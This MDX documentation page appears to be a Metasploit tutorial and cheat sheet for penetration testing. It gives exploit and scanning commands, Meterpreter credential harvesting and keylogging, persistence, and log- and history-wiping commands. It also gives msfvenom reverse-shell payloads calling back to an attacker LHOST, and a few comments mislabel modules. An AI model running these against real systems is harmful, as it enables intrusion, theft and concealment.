

import { Tab, Tabs } from 'fumadocs-ui/components/tabs';
import { Step, Steps } from 'fumadocs-ui/components/steps';
import { Accordion, Accordions } from 'fumadocs-ui/components/accordion';
import { CodeBlock } from 'fumadocs-ui/components/codeblock';
import { Files, Folder, File } from 'fumadocs-ui/components/files';
import { InlineTOC } from 'fumadocs-ui/components/inline-toc';

## Installation

<Tabs items={["Linux", "Windows", "MacOS"]}>
  <Tab>
    <Steps>
      <Step>
        <h4>Update packages</h4>
        ```bash
        # For Debian/Ubuntu based distributions
        sudo apt-get update
        sudo apt-get install metasploit-framework
        
        # For RHEL/CentOS/Fedora based distributions
        sudo dnf update
        sudo dnf install metasploit-framework
        ```
      </Step>
      <Step>
        <h4>Verify installation</h4>
        ```bash
        msfconsole -v
        ```
      </Step>
    </Steps>
  </Tab>
  <Tab>
    <Card>
      <h4>Download Metasploit</h4>
      ```bash
      # Visit https://www.metasploit.com/download
      ```
      <h4>Install from executable</h4>
      <p>Run the downloaded installer and follow the instructions</p>
      <h4>Verify installation</h4>
      ```bash
      msfconsole -v
      ```
    </Card>
  </Tab>
  <Tab>
    <Card>
      <h4>Install with Homebrew</h4>
      ```bash
      brew install metasploit
      ```
      <h4>Verify installation</h4>
      ```bash
      msfconsole -v
      ```
    </Card>
  </Tab>
</Tabs>

## Basic Commands

<Callout title="Framework Metasploit" type="info">
  Metasploit Framework is a powerful open-source penetration testing platform that enables you to find, exploit, and validate vulnerabilities.
</Callout>

<Steps>
  <Step>
    <h4>Start Metasploit console</h4>
    ```bash
    msfconsole
    ```
  </Step>
  <Step>
    <h4>Get help</h4>
    ```bash
    help
    ```
  </Step>
  <Step>
    <h4>Search for modules</h4>
    ```bash
    search type:exploit platform:windows
    ```
  </Step>
</Steps>

<Card className="border-2 border-blue-100 dark:border-blue-900 rounded-lg p-4 shadow-md">
  <h3 className="text-xl font-bold mb-3 text-blue-600 dark:text-blue-400">Metasploit Architecture</h3>
  <div className="grid grid-cols-1 md:grid-cols-3 gap-3">
    <div className="bg-gray-50 dark:bg-gray-800 p-3 rounded-md">
      <code className="text-sm font-mono">Modules</code>
      <p className="text-xs mt-1 text-gray-600 dark:text-gray-400">Exploits, payloads, auxiliaries, etc.</p>
    </div>
    <div className="bg-gray-50 dark:bg-gray-800 p-3 rounded-md">
      <code className="text-sm font-mono">Database</code>
      <p className="text-xs mt-1 text-gray-600 dark:text-gray-400">PostgreSQL backend</p>
    </div>
    <div className="bg-gray-50 dark:bg-gray-800 p-3 rounded-md">
      <code className="text-sm font-mono">Sessions</code>
      <p className="text-xs mt-1 text-gray-600 dark:text-gray-400">Connections to compromised systems</p>
    </div>
  </div>
</Card>

<br/>

# 🛠️ Core Modules

<Tabs items={["Exploits", "Payloads", "Auxiliaries", "Post"]}>
  <Tab>
    <Card>
      <h4>Using exploits</h4>
      ```bash
      search type:exploit name:apache
      use exploit/multi/http/apache_mod_cgi_bash_env_exec
      info
      show options
      set RHOSTS 192.168.1.1
      exploit
      ```
      
      <h4>Common exploit types</h4>
      <ul>
        <li><strong>browser</strong>: Browser-based exploits</li>
        <li><strong>fileformat</strong>: File format exploits</li>
        <li><strong>remote</strong>: Remote exploits</li>
        <li><strong>local</strong>: Local privilege escalation</li>
      </ul>
    </Card>
  </Tab>
  <Tab>
    <Card>      
      <h4>Payload types</h4>
      <ul>
        <li><strong>singles</strong>: Self-contained payloads</li>
        <li><strong>stagers</strong>: Small initial payloads that download the stage</li>
        <li><strong>stages</strong>: Downloaded by stagers to provide full functionality</li>
      </ul>
      
      <h4>Common payloads</h4>
      ```bash
      # Meterpreter (Windows)
      set PAYLOAD windows/meterpreter/reverse_tcp
      
      # Meterpreter (Linux)
      set PAYLOAD linux/x86/meterpreter/reverse_tcp
      
      # Command shell
      set PAYLOAD windows/shell/reverse_tcp
      ```
    </Card>
  </Tab>
  <Tab>
    <Card>
      <h4>Auxiliary modules</h4>
      ```bash
      search type:auxiliary name:scanner
      use auxiliary/scanner/smb/smb_version
      set RHOSTS 192.168.1.0/24
      run
      ```
      
      <h4>Common auxiliary types</h4>
      <ul>
        <li><strong>scanners</strong>: Network scanners</li>
        <li><strong>fuzzers</strong>: Protocol fuzzers</li>
        <li><strong>dos</strong>: Denial of service modules</li>
        <li><strong>spoofers</strong>: Packet spoofing tools</li>
      </ul>
    </Card>
  </Tab>
  <Tab>
    <Card>
      <h4>Post-exploitation modules</h4>
      ```bash
      search type:post platform:windows
      use post/windows/gather/hashdump
      set SESSION 1
      run
      ```
      
      <h4>Common post-exploitation tasks</h4>
      <ul>
        <li><strong>gather</strong>: Information gathering</li>
        <li><strong>escalate</strong>: Privilege escalation</li>
        <li><strong>manage</strong>: Session management</li>
        <li><strong>recon</strong>: Network reconnaissance</li>
      </ul>
    </Card>
  </Tab>
</Tabs>

## Database Management

<Steps>
  <Step>
    <h4>Start PostgreSQL service</h4>
    ```bash
    # For Debian/Ubuntu
    sudo service postgresql start
    
    # For RHEL/CentOS/Fedora
    sudo systemctl start postgresql
    ```
  </Step>
  <Step>
    <h4>Initialize the database</h4>
    ```bash
    msfdb init
    ```
  </Step>
  <Step>
    <h4>Check database status</h4>
    ```bash
    msfconsole
    db_status
    ```
  </Step>
  <Step>
    <h4>Import Nmap scan</h4>
    ```bash
    db_import /path/to/nmap_scan.xml
    hosts
    services
    ```
  </Step>
</Steps>

# 🔎 Reconnaissance and Scanning

<Callout title="Reconocimiento y escaneo" type="tip">
  ```bash
  # Run Nmap scan from within Metasploit
  db_nmap -sV -p 1-1000 192.168.1.0/24
  
  # View discovered hosts and services
  hosts
  ```
</Callout>

<Tabs items={["Network Scanning", "Service Enumeration"]}>
  <Tab>
    <Steps>
      <Step>
        <h4>Port scanning</h4>
        ```bash
        use auxiliary/scanner/portscan/tcp
        set RHOSTS 192.168.1.0/24
        set PORTS 22,80,443,3389
        run
        ```
      </Step>
      <Step>
        <h4>Host discovery</h4>
        ```bash
        use auxiliary/scanner/discovery/udp_sweep
        set RHOSTS 192.168.1.0/24
        run
        ```
      </Step>
      <Step>
        <h4>SMB scanning</h4>
        ```bash
        use auxiliary/scanner/smb/smb_version
        set RHOSTS 192.168.1.0/24
        run
        ```
      </Step>
    </Steps>
  </Tab>
  <Tab>
    <Steps>
      <Step>
        <h4>HTTP service enumeration</h4>
        ```bash
        use auxiliary/scanner/http/http_version
        set RHOSTS 192.168.1.0/24
        run
        ```
      </Step>
      <Step>
        <h4>SSH service enumeration</h4>
        ```bash
        use auxiliary/scanner/ssh/ssh_version
        set RHOSTS 192.168.1.0/24
        run
        ```
      </Step>
      <Step>
        <h4>FTP service enumeration</h4>
        ```bash
        use auxiliary/scanner/ftp/ftp_version
        set RHOSTS 192.168.1.0/24
        run
        ```
      </Step>
    </Steps>
  </Tab>
</Tabs>

## Vulnerability Scanning

<Card>
  <h4>Vulnerability scanners</h4>
  ```bash
  # Web application vulnerability scanner
  use auxiliary/scanner/http/dir_scanner
  set RHOSTS 192.168.1.1
  run
  
  # SMB vulnerability scanner
  use auxiliary/scanner/smb/smb_ms17_010
  set RHOSTS 192.168.1.0/24
  run
  
  # SSL/TLS vulnerability scanner
  use auxiliary/scanner/ssl/openssl_heartbleed
  set RHOSTS 192.168.1.0/24
  set RPORT 443
  run
  ```
</Card>
<br/>

# 🎯 Exploitation

<Accordions>
  <Accordion title="Basic Exploitation Workflow">
    <Steps>
      <Step>
        <h4>Find a suitable exploit</h4>
        ```bash
        search cve:2021 type:exploit
        ```
      </Step>
      <Step>
        <h4>Select and configure the exploit</h4>
        ```bash
        use exploit/windows/smb/ms17_010_eternalblue
        show options
        set RHOSTS 192.168.1.1
        ```
      </Step>
      <Step>
        <h4>Select and configure the payload</h4>
        ```bash
        show payloads
        set PAYLOAD windows/x64/meterpreter/reverse_tcp
        set LHOST 192.168.1.100
        set LPORT 4444
        ```
      </Step>
      <Step>
        <h4>Launch the exploit</h4>
        ```bash
        exploit
        # or
        run
        ```
      </Step>
    </Steps>
  </Accordion>
  
  <Accordion title="Brute Force Attacks">
    <Card>
      <h4>SSH brute force</h4>
      ```bash
      use auxiliary/scanner/ssh/ssh_login
      set RHOSTS 192.168.1.1
      set USERNAME root
      set PASS_FILE /path/to/wordlist.txt
      set STOP_ON_SUCCESS true
      run
      ```
      
      <h4>HTTP form brute force</h4>
      ```bash
      use auxiliary/scanner/http/http_login
      set RHOSTS 192.168.1.1
      set RPORT 80
      set USERNAME admin
      set PASS_FILE /path/to/wordlist.txt
      set STOP_ON_SUCCESS true
      run
      ```
    </Card>
  </Accordion>
  
  <Accordion title="Client-Side Attacks">
    <Card>
      <h4>Browser exploit</h4>
      ```bash
      use exploit/windows/browser/ie_execcommand_uaf
      set SRVHOST 192.168.1.100
      set SRVPORT 8080
      set URIPATH /
      set PAYLOAD windows/meterpreter/reverse_tcp
      set LHOST 192.168.1.100
      set LPORT 4444
      exploit
      ```
      
      <h4>Malicious document</h4>
      ```bash
      use exploit/windows/fileformat/office_word_hta
      set FILENAME malicious.docx
      set PAYLOAD windows/meterpreter/reverse_tcp
      set LHOST 192.168.1.100
      set LPORT 4444
      exploit
      ```
    </Card>
  </Accordion>
</Accordions>

## Meterpreter Commands

<Tabs items={["Basic Commands", "File Operations", "System Commands", "Network Commands"]}>
  <Tab>
    <Card>
      <h4>Basic Meterpreter commands</h4>
      ```bash
      help                  # Show help menu
      background            # Background the current session
      sessions -l           # List all sessions
      sessions -i 1         # Interact with session 1
      exit                  # Terminate the Meterpreter session
      ```
    </Card>
  </Tab>
  <Tab>
    <Card>
      <h4>File operations</h4>
      ```bash
      pwd                   # Print working directory
      cd /path/to/dir       # Change directory
      ls                    # List files
      cat file.txt          # Display file contents
      download file.txt     # Download file to attacker machine
      upload file.txt       # Upload file to victim machine
      edit file.txt         # Edit file
      search -f *.txt       # Search for files
      ```
    </Card>
  </Tab>
  <Tab>
    <Card>
      <h4>System commands</h4>
      ```bash
      sysinfo               # Show system information
      getuid                # Show current user
      getpid                # Show process ID
      ps                    # List running processes
      kill 1234             # Kill process by ID
      shell                 # Get system shell
      execute -f cmd.exe    # Execute command
      migrate 1234          # Migrate to another process
      ```
    </Card>
  </Tab>
  <Tab>
    <Card>
      <h4>Network commands</h4>
      ```bash
      ipconfig              # Show network interfaces
      route                 # Show routing table
      portfwd add -l 3389 -p 3389 -r 10.0.0.1  # Port forwarding
      arp                   # Show ARP cache
      netstat               # Show network connections
      ```
    </Card>
  </Tab>
</Tabs>

# 🛡️ Post-Exploitation

<Tabs items={["Privilege Escalation", "Persistence", "Lateral Movement", "Data Collection"]}>
  <Tab>
    <Steps>
      <Step>
        <h4>Windows privilege escalation</h4>
        ```bash
        # Check for missing patches
        run post/windows/gather/enum_patches
        
        # Suggest local exploits
        run post/multi/recon/local_exploit_suggester
        
        # UAC bypass
        use exploit/windows/local/bypassuac_fodhelper
        set SESSION 1
        run
        ```
      </Step>
      <Step>
        <h4>Linux privilege escalation</h4>
        ```bash
        # Check for kernel exploits
        run post/linux/gather/enum_system
        
        # Suggest local exploits
        run post/multi/recon/local_exploit_suggester
        
        # Check for SUID binaries
        run post/linux/gather/enum_configs
        ```
      </Step>
    </Steps>
  </Tab>
  <Tab>
    <Steps>
      <Step>
        <h4>Windows persistence</h4>
        ```bash
        # Add a backdoor user
        run post/windows/manage/enable_rdp
        
        # Registry autorun
        run post/windows/manage/persistence_exe
        set SESSION 1
        set STARTUP SYSTEM
        run
        ```
      </Step>
      <Step>
        <h4>Linux persistence</h4>
        ```bash
        # Add a backdoor user
        run post/linux/manage/sshkey_persistence
        set SESSION 1
        run
        
        # Cron job persistence
        run post/linux/manage/cron_persistence
        set SESSION 1
        run
        ```
      </Step>
    </Steps>
  </Tab>
  <Tab>
    <Steps>
      <Step>
        <h4>Network discovery</h4>
        ```bash
        run post/windows/gather/arp_scanner
        run post/multi/gather/ping_sweep
        ```
      </Step>
      <Step>
        <h4>Port forwarding</h4>
        ```bash
        # In Meterpreter
        portfwd add -l 3389 -p 3389 -r 10.0.0.1
        
        # Using autoroute
        run post/multi/manage/autoroute
        set SESSION 1
        set SUBNET 10.0.0.0/24
        run
        ```
      </Step>
      <Step>
        <h4>Pivoting</h4>
        ```bash
        # Set up SOCKS proxy
        use auxiliary/server/socks_proxy
        set VERSION 5
        set SRVPORT 1080
        run
        ```
      </Step>
    </Steps>
  </Tab>
  <Tab>
    <Steps>
      <Step>
        <h4>Credential harvesting</h4>
        ```bash
        # Windows password hashes
        run post/windows/gather/hashdump
        
        # Mimikatz
        load kiwi
        creds_all
        
        # Browser passwords
        run post/windows/gather/enum_chrome
        ```
      </Step>
      <Step>
        <h4>Screenshot and keylogging</h4>
        ```bash
        # Take screenshot
        screenshot
        
        # Start keylogger
        keyscan_start
        keyscan_dump
        keyscan_stop
        ```
      </Step>
      <Step>
        <h4>Data exfiltration</h4>
        ```bash
        # Search for files
        run post/windows/gather/enum_files
        
        # Download interesting files
        download C:\\Users\\Administrator\\Desktop\\secret.docx
        ```
      </Step>
    </Steps>
  </Tab>
</Tabs>

## Covering Tracks

<Card>
  <h4>Clear Windows event logs</h4>
  ```bash
  run post/windows/manage/delete_event_log_records
  set SESSION 1
  run
  ```
  
  <h4>Clear Linux logs</h4>
  ```bash
  run post/linux/manage/remove_logs
  set SESSION 1
  run
  ```
  
  <h4>Remove command history</h4>
  ```bash
  # In shell
  echo "" > ~/.bash_history
  history -c
  ```
</Card>

# 📊 Reporting

<Steps>
  <Step>
    <h4>Export database</h4>
    ```bash
    db_export -f xml /path/to/report.xml
    ```
  </Step>
  <Step>
    <h4>Generate report</h4>
    ```bash
    # From msfconsole
    makerc /path/to/commands.rc
    
    # From shell
    msfconsole -r /path/to/commands.rc -o /path/to/output.txt
    ```
  </Step>
</Steps>

<Card className="border-2 border-green-100 dark:border-green-900 rounded-lg p-4 shadow-md">
  <h3 className="text-xl font-bold mb-3 text-green-600 dark:text-green-400">MSFVenom Cheat Sheet</h3>
  
  <h4>List payloads</h4>
  ```bash
  msfvenom -l payloads
  ```
  
  <h4>Windows reverse shell</h4>
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe
  ```
  
  <h4>Linux reverse shell</h4>
  ```bash
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > shell.elf
  ```
  
  <h4>Web payload</h4>
  ```bash
  msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shell.php
  ```
  
  <h4>Android payload</h4>
  ```bash
  msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shell.apk
  ```
</Card>
